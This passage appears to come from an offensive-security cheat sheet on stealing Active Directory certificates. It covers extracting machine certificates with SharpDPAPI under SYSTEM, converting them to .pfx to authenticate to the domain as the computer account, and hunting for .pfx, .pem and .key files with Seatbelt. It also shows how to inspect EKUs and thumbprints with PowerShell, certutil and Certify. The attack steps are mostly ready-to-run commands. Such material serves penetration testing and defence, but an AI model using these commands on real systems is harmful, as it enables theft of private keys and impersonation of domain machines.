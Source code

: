 ### DPAPI Machine Keys \(THEFT3\) <a id="dpapi-machine-keys-theft-3"></a>

It's not possible to decrypt machine keys using the domain's DPAPI backup key, so the adversary can use the `DPAPI_SYSTEM` LSA secret on the system which is accessible only by the SYSTEM user:

```text
 # While elevated
Cmd > .\SharpDPAPI.exe certificates /machine
```

After converting the output to `.pfx` and if the appropriate EKU scenario is present, the adversary can use that `.pfx` for domain authentication _as the computer account_ \(see **PERSIST2**\).

### Search for Certificate Files \(THEFT4\) <a id="search-for-certificate-files-theft-4"></a>

Find certificate files lying around with Seatbelt:

```text
Cmd > .\Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
Cmd > .\Seatbelt.exe InterestingFiles
```

Some other certificate-related file extensions:

| File Extension | Description |
| :--- | :--- |
| `.key` | The private key. |
| `.crt`/`.cer` | The certificate. |
| `.csr` | Signing request file. Does not contain certificates or keys. |
| `.jks`/`.keystore`/`.keys` | Java Keystore. May contain certificates + private keys used by Java apps. |

List EKUs for a certificate with PowerShell:

```text
PS > $CertPath = "C:\Users\snovvcrash\cert.pfx"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.EnhancedKeyUsageList
```

Parse `.pfx` with certutil:

```text
Cmd > certutil.exe -dump -v cert.pfx
```

Correlate a certificate with a CA thumbprint on the host and in AD:

```text
 # Get cert's thumbprint
PS > $CertPath = "C:\Users\snovvcrash\cert.p12"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.Thumbprint
 # Match it with CA certs' thumbprints trusted by the current host
Cmd > .\Seatbelt.exe -q CertificateThumbprints
 # Match it with CA certs' thumbprints from AD
Cmd > .\Certify.exe find /quiet
```
